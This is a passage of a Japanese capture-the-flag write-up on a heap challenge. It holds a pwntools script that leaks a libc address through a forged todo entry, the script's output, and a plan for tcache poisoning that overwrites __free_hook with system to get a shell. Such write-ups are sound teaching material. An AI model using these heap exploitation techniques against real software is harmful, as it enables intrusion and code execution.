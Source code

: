 ```python

def show_todo():
    sock.recvuntil("> ")
    sock.sendline("4")
    return sock.recvuntil("\n\n")

elf = ELF("./challenge")
sock = Process("./challenge")

fake_todo = b'AAAAAAAA' + p64(elf.got("__libc_start_main"))
create_todo("A" * 0x10)
edit_todo("A" * 0x10, fake_todo, 0x10)
delete_todo("A" * 0x10)
create_todo("B" * 0x40)
create_todo("C" * 0x10)
print(show_todo())
```

予想通りにアドレスが取れています！
```
$ python solve.py
[+] Process: Successfully created new process (PID=28700)
b'BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB - 0\nCCCCCCCCCCCCCCCC - \xe0\x02!a\xb9\x7f\n\n'
[+] close: './challenge' killed
```

本番環境で試して出てきたアドレスをlibc databaseで調べるとlibcを特定できました。

さて、この状態でtcacheは空です。
ここから任意アドレスの書き換えをしましょう。
今回はFull RELROなので`__free_hook`を`system`のアドレスに書き換えてシェルを起動します。

editの際にdescがNULLでなければ一度freeされます。
~~したがって、先程と同じような状態でeditすれば、freeしてすぐmallocするので結局descはfree前と変わらない状態になります。（サイズが同じtcacheに入る範囲である必要あり。）~~
freeのチェックに引っかかるのでダメでした。

ということでtcache poisoningに方針を切り換えます。
descのサイズを大きくして削除すれば、tcacheは次のようにリンクします。
```
tcache[i] --> (todo1) --> (todo1->topic)
tcache[j] --> (todo1->desc)
```
この状態で新しいtodoを確保して削除すると、tcacheは次のような状態になります。
```
tcache[i] --> (todo1) --> (todo1->topic)
tcache[j] --> (todo1->desc) --> (todo1->desc) [--> 無限のリンク]
```
~~ここでtopicのサイズを削除したdescと同じにしてtodoを確保し、topicとして好きなアドレスを設定するとtcacheは次のようになります。~~
topicのサイズはNULLまでなので、descを使います。
先程削除したdescと同じサイズのdescを確保し、好きなアドレスを書き込みます。
このときtcacheの状態は次のようになります。
```
tcache[i] --> 空
tcache[j] --> (todo1->desc) --> (address)
```
